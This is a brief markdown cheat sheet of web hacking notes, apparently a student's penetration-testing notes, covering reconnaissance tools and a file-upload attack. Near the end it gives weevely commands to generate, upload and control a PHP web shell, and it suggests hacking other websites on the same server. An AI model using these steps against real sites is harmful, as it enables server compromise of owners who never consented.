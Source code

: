 ## Information Gathering
- IP address.
- Domain name info.
- Technologies used.
- Other websites on the same server.
- DNS records.
- Unlisted files, sub-domains, directories(/login, /phpinfo.php, /phpMyAdmin, /robots.txt).

1. Whois Lookup  - Find info about the owner of the target.
    - http://whois.domaintools.com/
2. Netcraft Site Report - Shows technologies used on the target.
    - https://sitereport.netcraft.com/
3. Wappalyzer - Identify technologies on websites 
    - https://www.wappalyzer.com/
4. Robtex DNS lookup - Shows comprehensive info about the target website.
    - https://www.robtex.com
5. Reverse IP Lookup
    - could not find any vulnerabilities in your target website,
you can try to hack into any other website
that is installed in the same server.
        - use Robtex DNS lookup
        - use bing.com ip:[ip]
        - use whois.domaintools.com
6. Discovering Subdomains
    - https://github.com/guelfoweb/knock
```
knockpy google.com
```
7. Discovering Files and Directories
- dirb
```
dirb [http://<ip>:<port> or domain] <word list location>
```
- Gobuster
    - https://github.com/OJ/gobuster
```
gobuster dir -u [http://<ip>:<port> or domain] -w <word list location>
```
recomendet wordlist https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/big.txt
- Look in /robots.txt

## Haking
File Upload
Can use Metasploit to generate a payload or use weevely
```
weevely generate [password] /kali/paht/to/save/shell.php
upload 
weevely [http://pathinthewebsite/shell.php] [password]
weevely> uname -a
```















